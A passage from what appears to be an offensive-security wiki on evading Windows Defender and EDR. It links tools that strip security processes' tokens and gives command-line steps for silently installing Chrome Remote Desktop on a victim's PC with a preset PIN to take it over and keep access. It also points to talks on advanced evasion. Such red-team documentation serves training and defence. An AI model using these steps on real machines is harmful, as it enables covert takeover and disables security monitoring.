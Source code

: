 To prevent this Windows could **prevent external processes** from getting handles over the tokens of security processes.

- [**https://github.com/pwn1sher/KillDefender/**](https://github.com/pwn1sher/KillDefender/)
- [**https://github.com/MartinIngesen/TokenStomp**](https://github.com/MartinIngesen/TokenStomp)
- [**https://github.com/nick-frischkorn/TokenStripBOF**](https://github.com/nick-frischkorn/TokenStripBOF)

## Using Trusted Software

### Chrome Remote Desktop

As described in [**this blog post**](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide), it's easy to just deploy the Chrome Remote Desktop in a victims PC and then use it to takeover it and maintain persistence:
1. Download from https://remotedesktop.google.com/, click on "Set up via SSH", and then click on the MSI file for Windows to download the MSI file.
2. Run the installer silently in the victim (admin required): `msiexec /i chromeremotedesktophost.msi /qn`
3. Go back to the Chrome Remote Desktop page and click next. The wizard will then ask you to authorize; click the Authorize button to continue.
4. Execute the given parameter with some adjustments: `"%PROGRAMFILES(X86)%\Google\Chrome Remote Desktop\CurrentVersion\remoting_start_host.exe" --code="YOUR_UNIQUE_CODE" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=%COMPUTERNAME% --pin=111111` (Note the pin param which allows to set the pin withuot using the GUI).
 

## Advanced Evasion

Evasion is a very complicated topic, sometimes you have to take into account many different sources of telemetry in just one system, so it's pretty much impossible to stay completely undetected in mature environments.

Every environment you go against will have their own strengths and weaknesses.

I highly encourage you go watch this talk from [@ATTL4S](https://twitter.com/DaniLJ94), to get a foothold into more Advanced Evasion techniques.

{{#ref}}
https://vimeo.com/502507556?embedded=true&owner=32913914&source=vimeo_logo
{{#endref}}

his is also another great talk from [@mariuszbit](https://twitter.com/mariuszbit) about Evasion in Depth.

{{#ref}}
https://www.youtube.com/watch?v=IbA7Ung39o4
{{#endref}}

## **Old Techniques**

### **Check which parts Defender finds as malicious**
